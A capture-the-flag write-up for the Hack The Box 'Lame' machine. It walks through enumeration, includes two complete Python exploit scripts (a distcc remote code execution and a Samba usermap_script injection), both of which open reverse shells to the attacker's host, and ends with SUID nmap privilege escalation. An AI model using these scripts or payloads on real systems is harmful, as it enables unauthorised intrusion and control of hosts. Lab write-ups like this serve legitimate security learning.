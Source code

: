 ```yaml
---
title: Lame
tags: linux
---
```


![image](assets/79371199-f89e6580-7f21-11ea-8c03-537738c623e5.png)

## Overview
Lame is an Ubuntu 8.04 box running distcc which is a tool designed to speed up code compilation by sending code to compile to other networked computers. This service was exploited to get the initial shell by sending a shell command padded with additional strings to make the compiler think it was getting a compile request but instead created a reverse shell. I escalated privileges to root by taking advantage of nmap which had the suid permission set. There is an alternate path to root which allowed commands to be run when the username map script smb.conf option is enabled.

## Enumeration

**Software**

* vsFTPd 2.3.4
* OpenSSH 4.7p1
* smbd 3.0.20-Debian
* distccd v1 (GNU) 4.2.4
* Ubuntu 8.04
* Sudo version 1.6.9p10
* mysql  Ver 14.12 Distrib 5.0.51a, for debian-linux-gnu (i486) using readline 5.2

**Port Scan**

```
nmap -sT -sV -Pn -n -p-  10.10.10.3 -oN /root/boxes/lame/_full_tcp_nmap.txt
```

* 21/tcp - ftp
* 22/tcp - ssh
* 139/tcp - samba smbd
* 445/tcp - samba smbd
* 3632/tcp - distccd

**SMB**

```
smbclient -L //10.10.10.3 -N
```

![image](assets/82768075-819a9d80-9dfa-11ea-961e-600e3e174d01.png)

## Steps (user)

Looking at the port scan I noticed that vsftpd 2.3.4 was running on port 21.  This version is known to have a backdoor that opens port 6200 on the target when a ":)" is appended to the username. I attempted this but for whatever reason the target did not seem vulnerable to so I moved on.

I used the smbclient tool to browse the smb shares to see if I could find any useful information.  I didn't find anything useful but I was able to write to /tmp, noting this for later.

```
smbclient //10.10.10.3/tmp -N
```

![image](assets/82768560-c70c9a00-9dfd-11ea-9701-fd855e4d47b7.png)

Next I looked at port 3632 running [distcc](https://distcc.github.io/) which is a tool for speeding up compilation of source code by using distributed computing over a network. Running a search in searchsploit for distcc returned one result.

![image](assets/82844230-c59aaa80-9ead-11ea-8581-fd407f15ed63.png)

Looking into the exploit, it appears to send a shell command and some additional strings to trick the service into thinking it's a compile operation.  The exploit was written in ruby for Metasploit and I decided to write my own in python instead.

```python
#!/usr/bin/python3
# Distcc Daemon Exploit
# Based on the Metasploit Exploit https://www.exploit-db.com/exploits/9915

import socket
import random
import string
import argparse

def dist_cmd(*argv):
    
    # Convince distccd that this is a compile
    argv = argv + ('#','-c','main.c','-o','main.o')
        
    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + "ARGC" + (str(len(argv))).zfill(8)
    
    for arg in argv:
        res += "ARGV" + (str(hex(len(arg))).strip("0x")).zfill(8) + arg

    return res

def exploit(lhost,lport,rhost,rport):

    payload = """perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,""" + '"' + lhost + ":" + lport + '"' + """);STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'"""

    # connect the client
    print("[*] Connecting to target...")
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.connect((rhost, rport))

    # Sending payload
    print("[*] Sending payload...")
    distcmd = dist_cmd("sh", "-c", payload)
    c.send((distcmd).encode('utf-8'))

    # Sending Second Payload
    print("[*] Sending second payload...")
    randomstr = ''.join(random.choices(string.ascii_letters + string.digits, k=10))
    c.send(('DOTI0000000A' + randomstr).encode('utf-8'))

    #receive
    r = c.recv(4096)
    print("[*] Server Response => " + (r).decode('utf-8'))
    c.close

def main(): 

    print("Distcc Daemon Exploit")
    parser = argparse.ArgumentParser(description="Distcc Daemon Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=3632)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()


```

I set up a netcat listener on port 4200 (nc -lvnp 4200) and ran the script. I received a callback and shell as user "daemon".

```
./distcc-exploit.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3
```

![image](assets/82901139-827f1c80-9f2b-11ea-8ebf-4486b0661f40.png)

## Steps (root/system)

Linenum was copied to my working directory, and apython http server started in preparation to transfer the file to the target.
```
cp ~/tools/LinEnum/LinEnum.py le.sh
python3 -m http.server 80
```

On the target I used wget to download and run LinEnum

```
wget http://10.10.14.29/le.sh
chmod +x ./le.sh && ./le.sh
```

Reviewing the results of LineEnum, Under "Possibly Interesting SUID files", nmap was listed. This can be used to escalate privileges.

![image](assets/82844423-638e7500-9eae-11ea-8524-54a6014599e4.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

I ran "nmap --interactive" followed by "!sh" to get shell as root

![image](assets/82844463-97699a80-9eae-11ea-972e-1a3d24f93801.png)


## Steps (root/system) - Alternate

There is a direct path to route by exploiting a flaw in Samba 3.0.20 < 3.0.25rc3 by executing arbitrary commands via shell metacharacters when the username map script smb.conf option is enabled. I created a script to automate the exploit and create a reverse shell.

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection
import argparse

def exploit(lhost,lport,rhost,rport):
    
    # Simple netcat reverse shell payload
    payload = "nc -e /bin/sh " + lhost + " " + lport

    # Send the commands + payload via using ntlmv1 to target host
    username = "/=`nohup " + payload + "`"
    password = "anything"
    conn = SMBConnection(username, password, "myname", "remotename", use_ntlm_v2 = False)
    assert conn.connect(rhost, int(rport))

def main():
    
    print("Samba Usermap Script Exploit")
    parser = argparse.ArgumentParser(description="Samba Usermap Script Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=139, required=True)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()

```

I set up a netcat listener (nc -lvnp 4200) and ran the script. I received a callback and shell as root.

```
./samba-usermap-script.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3 --rport 139
```

![image](assets/82898751-d1c34e00-9f27-11ea-99cf-f4af6b04b6dd.png)
